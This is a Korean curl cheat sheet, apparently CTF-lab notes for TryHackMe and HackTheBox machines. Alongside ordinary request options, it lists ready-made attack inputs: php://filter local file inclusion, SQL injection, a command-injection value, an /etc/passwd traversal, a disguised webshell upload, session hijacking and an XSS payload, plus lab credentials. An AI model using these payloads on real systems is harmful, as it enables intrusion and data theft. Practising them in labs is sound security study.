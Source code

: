 # curl - HTTP 요청 도구

## 기본 요청

```bash
curl http://target.com                # 기본 GET 요청 (출력: 터미널)
curl -o file.html http://target.com   # 파일로 저장
curl -s http://target.com             # 진행 바 숨김
curl -L http://target.com             # 리다이렉트 따라가기
```

## 디버깅/분석

```bash
curl -v http://target.com             # 모든 요청/응답 상세 표시 (필수)
curl -I http://target.com             # 헤더만 요청 (HEAD 메소드)
curl -i http://target.com             # 응답 본문과 헤더 함께 표시

# 리디렉션으로 파일 저장 후 base64 디코딩
curl "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/read=convert.base64-encode/resource=../../hello.php" > hello.b64
base64 -d hello.b64 > hello.php
```

## 인증

```bash
curl -u user:pass http://target.com   # 기본 인증
curl -H "Authorization: Bearer eyJh..." http://target.com  # JWT/토큰

# 쿠키 관련
curl -c cookie.txt http://target.com        # 쿠키 저장
curl -b cookie.txt http://target.com        # 저장된 쿠키 사용
curl -b cookie.txt -c cookie.txt http://target.com  # 세션 유지

# cookie example (total 2)
Cookie: wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_45a7e4c82b517c5af328feabce4d0187=wpuser%7C1753668949%7CcPTwzE1cbFpF18C6ZZZnuwRE0D2eRXISGnrDPvbQcBv%7Cccf2b309c5881393194d94ea8fc1ff5c9b3a8324cfc1282e423f89ccc74ee070

# request with cookie
curl -i -L -H "Cookie: wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_45a7e4c82b517c5af328feabce4d0187=wpuser%7C1753668949%7CcPTwzE1cbFpF18C6ZZZnuwRE0D2eRXISGnrDPvbQcBv%7Cccf2b309c5881393194d94ea8fc1ff5c9b3a8324cfc1282e423f89ccc74ee070" -H "User-Agent: Mozilla/5.0" http://www.smol.thm/wp-admin/
```

## 데이터 전송

```bash
# POST form
# -d === --data
curl -X POST -d "user=admin&pass=secret" http://target.com/login.php

# login
curl -i -X POST "http://www.smol.thm/wp-login.php" -H "Content-Type: application/x-www-form-urlencoded" -H "User-Agent: Mozilla/5.0" --data "log=wpuser&pwd=kbLSF2Vop%23lw3rjDZ629*Z%25G&rememberme=forever&wp-submit=Log+In&redirect_to=http://www.smol.thm/wp-admin/" -c cookie.txt


# 파일 업로드
curl -F "file=@shell.php" -F "description=profile" http://target.com/upload.php

# JSON 전송
curl -X POST -H "Content-Type: application/json" \
    -d '{"username":"admin","password":"s3cr3t"}' \
    http://target.com/api/login
```

## 헤더 조작

```bash
# 사용자 에이전트 변경
curl -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)" http://target.com

# IP 스푸핑 시도
curl -H "X-Forwarded-For: 127.0.0.1" http://target.com
curl -H "X-Real-IP: 127.0.0.1" http://target.com
```

## 보안/프록시

```bash
curl -k https://target.com                       # SSL 인증서 검증 무시
curl -x http://127.0.0.1:8080 http://target.com  # HTTP 프록시 (Burp)
curl --socks5 127.0.0.1:9050 http://target.com   # SOCKS5 프록시 (Tor)
```

## 취약점 테스트

```bash
# SQL 인젝션
curl "http://target.com/search.php?id=1 OR 1=1--"

# LFI
curl "http://target.com/page.php?file=../../../etc/passwd"

# 명령어 인젝션
curl "http://target.com/ping.php?host=127.0.0.1;id"
```

# 파일 업로드 취약점 (확장자 우회)

curl -X POST -F "file=@webshell.php;filename=image.jpg;type=image/jpeg" http://target.com/upload
curl -F "file=@/경로/파일명" http://타겟IP/upload.php
`@`는 curl에서 파일 업로드할 때 로컬 파일임을 나타내는 표시입니다. `-F` 옵션과 함께 사용합니다.

````

### 인증 우회 및 세션 작업

```bash
# CSRF 토큰 추출 후 사용
TOKEN=$(curl -s -c cookie.txt http://target.com/form | grep -o 'csrf_token" value="[^"]*' | cut -d'"' -f3)
curl -b cookie.txt -d "csrf_token=$TOKEN&username=admin&password=password" http://target.com/login

# 쿠키 조작으로 세션 하이재킹
curl -b "sessionid=STOLEN_SESSION_VALUE" http://target.com/admin

# HTTP 기본 인증 테스트
curl -u admin:password http://target.com/admin
````

### 유용한 도구 조합

```bash
# URL 인코딩 (Python 활용)
curl "http://target.com/search?q=$(python3 -c "import urllib.parse; print(urllib.parse.quote('<script>alert(1)</script>'))")"

# Base64 인코딩 헤더 사용 (Basic Auth)
curl -H "Authorization: Basic $(echo -n 'admin:password' | base64)" http://target.com

# 404 오류 페이지 숨기기
curl -f http://target.com/admin || echo "페이지 없음"

# 응답에서 특정 정보 필터링
curl -s http://target.com | grep "flag"
```

### 실전 로그인 및 세션 유지 예시

```bash
# 로그인하여 세션 쿠키 저장
curl -c cookie.txt -X POST http://lookup.thm/login.php -d 'username=admin&password=password123' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8'

# 저장된 쿠키로 인증된 페이지 접근
curl -b cookie.txt http://lookup.thm/dashboard.php
```

# 로그인 쿠키 저장

curl -c cookie.txt -X POST http://grafana.planning.htb/login -H "Content-Type: application/json" -d '{"user":"admin","password":"0D5oT70Fq13EvB5r"}'

┌──(root㉿docker-desktop)-[/]
└─# curl -c cookie.txt -X POST http://grafana.planning.htb/login \
 -H "Content-Type: application/json" \
 -d '{"user":"admin","password":"0D5oT70Fq13EvB5r"}'

# Cookie File -> Netscape format 분석

grafana.planning.htb FALSE / FALSE 1755096838 grafana_session_expiry 1752505433
#HttpOnly_grafana.planning.htb FALSE / FALSE 1755096838 grafana_session 508ccc52bfc97942574a1cb84a726eb1

| 항목      | 설명                                                           |
| --------- | -------------------------------------------------------------- |
| 도메인    | `grafana.planning.htb` – 쿠키가 유효한 호스트                  |
| `FALSE`   | 이 쿠키가 서브도메인에 적용되는지 여부 (FALSE = 해당 도메인만) |
| 경로      | `/` – 쿠키가 유효한 경로                                       |
| Secure    | `FALSE` – HTTPS에서만 전송되는지 여부                          |
| 만료 시간 | `1755096838` (Unix timestamp) – 쿠키 만료 시각                 |
| 이름      | `grafana_session_expiry` 또는 `grafana_session`                |
| 값        | 예: `508ccc52bfc97942574a1cb84a726eb1`                         |
